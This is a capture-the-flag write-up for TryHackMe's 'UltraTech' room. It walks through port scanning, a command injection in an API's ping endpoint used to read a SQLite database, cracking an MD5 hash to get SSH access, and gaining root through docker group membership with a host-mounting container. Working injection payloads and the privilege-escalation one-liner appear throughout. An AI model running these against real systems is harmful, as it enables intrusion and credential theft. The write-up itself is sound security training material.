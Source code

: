 ```yaml
---
clayout: ctf
title: UltraTech
type: TryHackMe
date: 2025-09-27
level: Medium
icon: /ctf/tryhackme/ultra-tech/icon-room.png
image: /ctf/tryhackme/ultra-tech/icon-room.png
description: UltraTech
ctf-link: https://tryhackme.com/room/ultratech1
---
```


## Challenge Overview

UltraTech is a **web application** challenge focused on exploiting a vulnerable API endpoint through **command injection** to gain initial access. The challenge involves a Docker environment where the goal is to escalate privileges to root by leveraging Docker group membership.

## Enumeration

### Nmap Scan

```bash
nmap -sCV -p- -oN nmap 10.10.52.175
```

**Scan Results:**

```bash
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

## Web Enumeration

When accessing `http://10.10.52.175:8081/`, we discover the **UltraTech API** page.

![UltraTech API](/ctf/tryhackme/ultra-tech/api.png)

Browsing to `http://10.10.52.175:31331/` exposes the **UltraTech** home page.

![UltraTech Home](/ctf/tryhackme/ultra-tech/home.png)

Looking at the `robots.txt` file, we can see a reference to a hidden file called `utech_sitemap.txt`.

```txt
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```

Navigating to `http://10.10.52.175:31331/utech_sitemap.txt` reveals a sitemap file.

```txt
/
/index.html
/what.html
/partners.html
```

Looking at the sitemap, we can see a hidden page called `partners.html` which shows us a login page.

![UltraTech Partners](/ctf/tryhackme/ultra-tech/partners.png)

### Source Code Analysis

Examining the page source reveals a JavaScript file (`api.js`) that handles authentication and periodically sends requests to the `ping?ip=` endpoint every 10 seconds.

```bash
PING 10.10.52.175 (10.10.52.175) 56(84) bytes of data. 64 bytes from 10.10.52.175: icmp_seq=1 ttl=64 time=0.015 ms --- 10.10.52.175 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms
```

## Exploitation

### Command Injection Vulnerability

The `ip` parameter is vulnerable to **command injection** because user input is directly passed to the system command without proper sanitization.

**Testing the vulnerability:**

```url
http://10.10.52.175:8081/ping?ip=%60ls%60;
```

**Response:**

```bash
ping: utech.db.sqlite: Name or service not known
```

The error message reveals the presence of a `utech.db.sqlite` file, confirming that our injected command (`ls`) was executed successfully.

### Extracting Database Contents

**Reading the SQLite database:**

```url
http://10.10.52.175:8081/ping?ip=%60cat%20utech.db.sqlite%60;
```

**Response:**

```bash
f357a0c52799563c7c7b76c1e7543a32
```

This reveals an MD5 hash that appears to be associated with the `r00t` user account.

### Hash Cracking

**Cracking the MD5 hash with Hashcat:**

```bash
hashcat -m 0 f357a0c52799563c7c7b76c1e7543a32 /usr/share/wordlists/rockyou.txt
```

**Cracked result:**

```bash
f357a0c52799563c7c7b76c1e7543a32:n100906
```

The password for the `r00t` user is `n100906`.

### Initial Access

**SSH login with discovered credentials:**

```bash
ssh r00t@10.10.52.175
```

**Verifying access:**

```bash
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

We have successfully gained initial access as the `r00t` user.

## Privilege Escalation (r00t → root)

### Docker Group Privilege Escalation

**Checking user groups:**

```bash
r00t@ultratech-prod:~$ groups
r00t docker
```

The `r00t` user is a member of the `docker` group, which provides significant privileges for privilege escalation.

**Why Docker group membership is dangerous:**

Members of the `docker` group can execute Docker commands without `sudo`, which allows them to:

- Run containers with elevated privileges
- Mount host filesystems into containers
- Access the host system through container escape techniques

**Exploiting Docker group membership:**

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

**Result:**

```bash
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

::: details Command explanation

- `docker run`: Creates and runs a new container
- `-v /:/mnt`: Mounts the entire host root filesystem (`/`) to `/mnt` inside the container
- `--rm`: Automatically removes the container when it exits
- `-it`: Interactive terminal mode
- `bash`: The container image to use
- `chroot /mnt sh`: Changes the root directory to the mounted filesystem and spawns a shell

:::

> [!IMPORTANT] Final flag
> `/root/.ssh/id_rsa`

